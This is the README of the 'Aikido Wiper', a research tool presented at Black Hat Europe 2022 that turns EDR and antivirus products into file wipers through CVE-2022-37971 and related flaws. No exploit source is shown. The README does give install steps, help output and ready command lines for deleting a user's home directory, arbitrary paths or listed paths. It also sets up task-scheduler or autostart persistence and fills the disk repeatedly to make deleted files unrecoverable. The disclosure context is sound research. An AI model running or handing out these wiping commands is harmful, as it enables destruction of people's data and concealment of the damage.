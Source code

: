 # Aikido Wiper
Presented in Black Hat Europe 2022 Briefings under the title - [**Aikido: Turning EDRs to Malicious Wipers Using 0-day Exploits**](https://www.blackhat.com/eu-22/briefings/schedule/#aikido-turning-edrs-to-malicious-wipers-using--day-exploits-29336)

Full research process is described here - https://www.safebreach.com/resources/blog/safebreach-labs-researcher-discovers-multiple-zero-day-vulnerabilities/

## CVEs issued so far
* Windows Defender & Windows Defender for Endpoint - **CVE-2022-37971**
* TrendMicro Apex One - **CVE-2022-45797**
* Avast Antivirus & AVG Antivirus - **CVE-2022-4173**

The wiper is implemented only for the vulnerabilities found in the Windows Defender, Windows Defender for Endpoint and SentinelOne EDR.
## Installation
### Aikido Wiper Library
```bash
pip install <repo_path>
```
or
```bash
python setup.py install
```

### Aikido Wiper Tool
Make sure you installed the Aikido Wiper Library and then run:
```bash
pyinstaller --onefile wiper_tool/wiper.py
```

## General Description
Aikido Wiper is a next-gen wiper that manipulates EDRs and anti viruses in order to delete files.
## Usage
The Aikido Wiper offers two options to begin with:
```cmd
cmd> .\wiper.exe -h
usage: wiper.exe [-h] [-q] {PROXY_DELETION,ERASE_DISK_TRACES} ...

Aikido Wiper - Next gen wiping

optional arguments:
  -h, --help            show this help message and exit
  -q, --quiet           If specified, the wiper will run in the background

mode:
  {PROXY_DELETION,ERASE_DISK_TRACES}
```
* `PROXY_DELETION` - Specifies that you want to wipe something.
* `ERASE_DISK_TRACES` - Specifies that the wiper should fill the free space on the disk completely with a huge file, delete the file, and repeat this process a few times. This option mainly exists for the wiper to be able to use this feature in order to make deleted files unrestorable after one of the exploits is exploited and a reboot occurs.

If `PROXY_DELETION` is chosen then a few other options are available:
```cmd
cmd> .\wiper.exe PROXY_DELETION -h
usage: wiper.exe PROXY_DELETION [-h] [-p {MicrosoftDefenderDeleteProxy,SentinelOneDeleteProxy}]
                                [-etp {RIGHT_AFTER,TASK_SCHEDULER_REBOOT,AUTOSTART_REBOOT}]
                                [--decoy-root-dir DECOY_ROOT_DIR]
                                {ALL_USER_DATA,ALL_FILES_UNDER_PATH,CUSTOM_PATHS} ...

optional arguments:
  -h, --help            show this help message and exit
  -p {MicrosoftDefenderDeleteProxy,SentinelOneDeleteProxy}, --proxy {MicrosoftDefenderDeleteProxy,SentinelOneDeleteProxy}  
                        The proxy security control to use
  -etp {RIGHT_AFTER,TASK_SCHEDULER_REBOOT,AUTOSTART_REBOOT}, --erase-traces-point {RIGHT_AFTER,TASK_SCHEDULER_REBOOT,AUTOSTART_REBOOT}
                        When to execute the part of the wiping that fills the disk to remove traces of deleted files       
  --decoy-root-dir DECOY_ROOT_DIR
                        The path in which all the decoys will be placed in case of a usage of a JunctionSwitchProxy        

deletion_target:
  {ALL_USER_DATA,ALL_FILES_UNDER_PATH,CUSTOM_PATHS}
    ALL_USER_DATA       Try to delete the home directory of a certain user
    ALL_FILES_UNDER_PATH
                        Try to delete all the files under the certain path
    CUSTOM_PATHS        Try to delete custom paths
```
The mandatory option to choose is the deletion target.
* `ALL_USER_DATA` requires the name of the target user. example:
```cmd
cmd> .\wiper.exe PROXY_DELETION ALL_USER_DATA Admin
```
* `ALL_FILES_UNDER_PATH` requires the path to the target directory. example:
```cmd
cmd> .\wiper.exe PROXY_DELETION ALL_FILES_UNDER_PATH C:\Users\Admin
```
This option is not relevant to run against Windows Defender & Defender for Endpoint since the exploit for them does not support specific files deletion
* `CUSTOM_PATHS` requires a path to a file that contains a list separated by line breaks and contains the paths to try to delete. The paths can be directories or files. example:
```cmd
cmd> .\wiper.exe PROXY_DELETION CUSTOM_PATHS .\custom_paths.txt
```
The exploit for Windows Defender & Defender for Endpoint does not support specific files deletion. Therefore, the custom paths file can contain only paths to directories.

### Default Behavior With Mandatory Arguments Only
If you give the wiper only the mandatory arguments, which are the operation mode, probably `PROXY_DELETION`, along with the deletion target, then the default behavior will be as the following:
* The wiper will create a decoy directory in the root path of the Windows drive of the computer.
* The wiper will create the specially crafted paths inside the decoy directory and create the decoy files.
* The wiper will keep open handles to the decoy files until the EDR or the AV is forced to give up on deleting them and instead marks them for deletion for after the next reboot.
* The wiper will write a task to the task scheduler that will run the wiper in the `ERASE_DISK_TRACES` mode right after the reboot.
* After the reboot the target files or directories will be deleted and the wiper will start the process of filling up the disk a few times.

### Optional Behavior With Optional Arguments
#### `-p` / `--proxy`
Lets you choose the deletion proxy class to use. By default, the class is chosen according to the EDR / AV installed on the computer.
* `MicrosoftDefenderDeleteProxy` - Exploits CVE-2022-37971.
* `SentinelOneDeleteProxy` - Exploits <TBD>
#### `-etp` / `--erase-traces-point`
Lets you choose the point in time in which the erase disk traces trick should occur. In other words, the point in time when the wiper starts to fill up the disk to no space for a few times.
* `RIGHT_AFTER` - Should occur right after the exploit is being exploited with no reboot (not relevant for `MicrosoftDefenderDeleteProxy` or `SentinelOneDeleteProxy` but maybe for future exploits)
* `TASK_SCHEDULER_REBOOT` - The wiper should erase disk traces after reboot while using the task scheduler persistency method.
* `AUTOSTART_REBOOT` - The wiper should erase disk traces after reboot while using the autostart directory persistency method.
#### `--decoy-root-dir`
The exploits require a creation of decoy malicious files in order to make the AV / EDR try to delete them and then right before the deletion turn the decoys' root directory into a junction point to the Windows drive. This parameter lets you choose where to create the root directory for the decoys which are used for the exploits against the EDRs / AVs. The default directory is a directory with a uuid name in the Windows drive.

## Author - Or Yair
* Twitter: [@oryair1999](https://twitter.com/oryair1999)
* LinkedIn: [Or Yair](https://www.linkedin.com/in/or-yair/)
